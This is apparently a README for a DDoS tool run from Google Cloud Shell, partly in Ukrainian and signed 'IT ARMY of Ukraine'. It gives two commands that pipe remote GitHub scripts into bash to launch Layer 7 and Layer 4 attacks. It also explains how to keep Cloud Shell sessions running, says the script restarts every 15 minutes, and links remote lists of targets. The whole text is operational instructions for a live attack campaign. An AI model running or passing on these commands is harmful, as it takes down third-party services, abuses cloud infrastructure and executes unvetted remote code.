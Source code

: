 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Команди для запуску атаки

по Layer7:

curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell вмикаємо Ephemeral Mode (ставимо - "Завжди")

перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4




IT ARMY of Ukraine
